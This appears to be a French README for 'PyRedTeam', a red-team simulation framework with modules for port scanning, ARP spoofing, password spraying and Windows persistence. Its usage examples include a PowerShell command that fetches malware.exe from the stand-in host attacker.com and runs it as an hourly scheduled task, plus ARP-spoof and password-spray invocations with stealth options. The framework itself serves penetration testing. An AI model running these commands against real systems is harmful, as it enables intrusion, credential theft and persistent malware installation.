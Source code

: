 # 🛡️ PyRedTeam - Framework de Simulation d'Attaques


Framework complet pour les tests d'intrusion éthiques permettant d'exécuter des attaques simulées dans un environnement contrôlé et sécurisé.

## 🌟 Fonctionnalités Principales

- **🧩 Architecture Modulaire**  
  Ajoutez facilement de nouveaux modules d'attaque
- **🔒 Sécurité Renforcée**  
  Chiffrement AES-256 des rapports et validation des entrées
- **🌐 Mode Furtif**  
  Techniques d'évasion avancées (délais aléatoires, MAC variables)
- **📊 Journalisation Avancée**  
  Support ElasticSearch, fichiers locaux et console
- **🚀 API REST Sécurisée**  
  Gestion des attaques via HTTPS
- **🐳 Isolation Docker**  
  Environnement d'exécution sécurisé
- **📝 Rapports Personnalisables**  
  Formats JSON, YAML et HTML

## 📦 Installation

### Prérequis
- Docker
- Python 3.10+
- ElasticSearch (optionnel)

```bash
# Cloner le dépôt
git clone https://github.com/votre-utilisateur/PyRedTeam.git
cd PyRedTeam

# Construire l'image Docker
docker build -t pyredteam .

# Vérifier l'installation
docker run --rm pyredteam --list
```

## 🚀 Utilisation

### Interface en Ligne de Commande (CLI)

```bash
# Lister les modules disponibles
docker run pyredteam --list

# Exécuter un scan de ports (mode furtif)
docker run --net=host pyredteam \
  --run port_scan \
  --target 192.168.1.1 \
  --ports 22,80,443,8080-8090 \
  --covert \
  --output scan_results.json \
  --encrypt

# Exécuter un scan de ports
docker run --net=host pyredteam \
  --run port_scan \
  --target 192.168.1.1 \
  --params "ports=1-1024"

# Exécuter un ARP Spoof
docker run --net=host pyredteam \
  --run arp_spoof \
  --target 192.168.1.10 \
  --gateway 192.168.1.1 \
  --interface eth0 \
  --covert \
  --output arp_report.json

# Exécuter un Password Spray
docker run pyredteam \
  --run password_spray \
  --url http://site.com/login \
  --params '{
    "usernames": ["admin", "user", "test"],
    "passwords": ["password123", "admin123", "Welcome1"],
    "user_agent": "Mozilla/5.0"
  }' \
  --output spray_results.json \
  --encrypt

# Exécuter un Scheduled Task
docker run pyredteam \
  --run scheduled_task \
  --params '{
    "task_name": "UpdateService",
    "command": "powershell -c \"Start-BitsTransfer -Source http://attacker.com/malware.exe -Destination C:\\malware.exe; Start-Process C:\\malware.exe\"",
    "trigger": "hourly"
  }' \
  --output task_report.yaml

# Démarrer l'API REST
docker run -p 5000:5000 pyredteam --api
```

### API REST

```
Endpoint                  Méthode                   Description
/attacks	              GET	                    Liste les modules disponibles
/attack/{module}	      POST	                    Exécute une attaque spécifique
/attack/{id}	          DELETE	                Arrête une attaque en cours
```

- **Exemple avec cURL**:
```bash
curl -k -X POST https://localhost:5000/attack/port_scan \
  -H "Content-Type: application/json" \
  -d '{"target_ip": "192.168.1.1", "ports": "1-1024"}'
```

## 🧠 Architecture Technique

### Structure des Modules

**Chaque module implémente l'interface standard:**

```bash
class Attack:
    def __init__(self):
        self.logger = Logger("NomModule")
    
    def setup(self, **kwargs):
        """Configuration initiale"""
        
    def execute(self):
        """Exécution de l'attaque"""
        return {"result": "data"}
        
    def cleanup(self):
        """Nettoyage des ressources"""
```

### Modules Inclus

1. **Port Scan (```network/port_scan.py```)**

- Scan TCP de ports

- Détection des services ouverts

2. **ARP Spoof (```network/arp_spoof.py```)**

- Empoisonnement ARP

- Mode furtif (timing aléatoire, MAC variables)

3. **Password Spray (```credential/password_spray.py```)**

- Attaque par pulvérisation de mots de passe

- Support multi-protocoles

4. **Scheduled Task (```persistence/scheduled_task.py```)**

- Création de tâches planifiées

- Persistance Windows

## Sécurité

- 🔑 Chiffrement AES-256 des rapports
- 🛡️ Validation stricte des entrées
- 🐋 Isolation via Docker
- 📜 Journalisation chiffrée
- 🔐 API avec HTTPS auto-signé

## Contribution

1. Forker le dépôt
2. Créer une branche (git checkout -b feature/nouveau-module)
3. Commiter les changements (git commit -am 'Ajout module X')
4. Pusher (git push origin feature/nouveau-module)
5. Créer une Pull Request

## Licence

MIT License - Voir [LICENSE](LICENSE)
